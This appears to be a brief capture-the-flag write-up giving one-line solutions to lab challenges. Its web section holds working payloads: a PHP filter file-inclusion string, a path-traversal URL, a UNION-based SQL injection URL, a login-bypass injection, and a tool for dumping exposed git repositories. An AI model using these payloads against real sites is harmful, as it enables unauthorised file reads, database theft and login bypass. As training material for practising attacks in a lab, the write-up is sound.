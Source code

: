 ## Web
### easy_lfi
* get source code
php://filter/read=convert.base64-encode/resource=index.php
* obtain flag
http://140.110.112.29:4005/?f=///////flag

### easy_peasy
* SQL injection
http://140.110.112.29:4001/news.php?id=-1%20union%20SELECT%201,2,THIS_IS_FLAG_YO%20from%20fl4g.secret
### Developer_Tools
* Just decode base64.
### Flashing_Redirect
* Use curl to get the flag.
### four-char-inj
* http://120.114.62.45:4003/?user=*'&pass=*'
### gitleak
* Use GitHack tools
https://github.com/lijiejie/GitHack

## Misc
### Linux-hidden-1
* Use ssh -p 2200 lab@140.110.112.29
### Linux-hidden-2
* Use ssh -p 2200 lab@140.110.112.29.
* Compress /home/lab/ForYou.tar.gz to /tmp/XXX.
* use the command:
```
$ tar -C /tmp/oneheart -zvxf ForYou.tar.gz
```
## Crypto
### HashingService
* encode sha256 to solve it.
